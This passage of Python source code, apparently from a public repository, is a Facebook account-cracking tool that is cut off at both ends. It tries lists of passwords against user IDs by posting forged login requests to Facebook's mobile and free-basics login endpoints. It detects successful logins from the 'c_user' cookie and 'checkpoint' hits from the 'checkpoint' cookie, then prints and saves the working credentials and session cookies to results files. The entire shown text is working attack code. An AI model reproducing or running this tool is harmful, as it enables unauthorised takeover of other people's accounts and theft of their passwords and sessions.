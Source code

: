             ses = requests.Session()
            ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack Free.Facebook.Com
def free(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://free.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "free.facebook.com", "referer": "https://free.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://free.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})